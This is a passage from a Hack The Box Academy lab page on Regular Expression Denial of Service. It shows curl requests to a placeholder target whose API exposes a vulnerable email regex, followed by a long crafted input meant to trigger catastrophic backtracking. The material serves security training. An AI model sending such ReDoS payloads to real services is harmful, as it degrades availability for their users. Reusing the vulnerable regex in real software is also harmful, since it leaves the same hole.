<!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/160/section/1480
// Platform Version: V1
// Module ID: 160
// Module Name: Web Service & API Attacks
// Module Difficulty: Medium
// Section ID: 1480
// Section Title: Regular Expression Denial of Service (ReDoS)
// Page Title: Web Service & API Attacks
// Page Number: 11
-->

# Regular Expression Denial of Service (ReDoS)

**Module Name:** Web Service & API Attacks **Page Number:** 11

#### WEB SERVICE & API ATTACKS

# Regular Expression Denial of Service (ReDoS)

``` shell-session
[!bash!]$ curl "http://<TARGET IP>:3000/api/check-email?email=test_value"
{"regex":"/^([a-zA-Z0-9_.-])+@(([a-zA-Z0-9-])+.)+([a-zA-Z0-9]{2,4})+$/","success":false}
```

![https://academy.hackthebox.com/storage/modules/160/TXFOUkOko.png](https://academy.hackthebox.com/storage/modules/160/TXFOUkOko.png)

``` shell-session
[!bash!]$ curl "http://<TARGET IP>:3000/api/check-email?email=jjjjjjjjjjjjjjjjjjjjjjjjjjjj@ccccccccccccccccccccccccccccc.55555555555555555555555555555555555555555555555555555555."
{"regex":"/^([a-zA-Z0-9_.-])+@(([a-zA-Z0-9-])+.)+([a-zA-Z0-9]{2,4})+$/","success":false}
```

# 

# 

#### Questions

####